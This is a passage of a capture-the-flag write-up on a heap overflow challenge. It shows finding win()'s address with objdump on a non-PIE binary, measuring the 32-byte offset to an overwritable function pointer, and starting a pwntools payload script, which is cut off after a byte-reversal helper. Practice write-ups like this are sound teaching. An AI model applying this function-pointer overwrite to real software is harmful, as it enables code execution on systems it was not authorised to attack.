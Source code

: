 `check_win()` takes `x` and does the following:
- `(int*)x` - Casts it to an integer pointer
- `*(int*)x` - Dereferences it (gets its value)
- `((void (*)())*(int*)x)` - Casts it to a function pointer with signature `void * ... ()`
- `((void (*)())*(int*)x)()` - Invokes the function

The function we want to invoke is `win()`
```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
```

The challenge binary does not use **PIE**
```
$ file ./chall 
./chall: ELF 64-bit LSB executable, ...
```

So we can find the address of `win()` using `objdump`
```
$ objdump -d chall | grep win
00000000004011a0 <win>:
```

Now since the input is a string and gets converted to an integer, each character is converted to its ASCII decimal representation.  
So we need to convert the address to its respective text representation to use in our payload.  

Similar to the last challenge, we can view the heap state
```
$ ./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x145fe6b0  ->   pico
+-------------+-----------+
[*]   0x145fe6d0  ->   bico
```

And our target is again 32 bytes away from the input.

To put this all together and test both on the local binary and the server I will use the following **Python** script
### Python Script
```python
from pwn import *
import sys

def reverse_str(str):
    chunks = [str[i:i+2] for i in range(0, len(str), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)


```
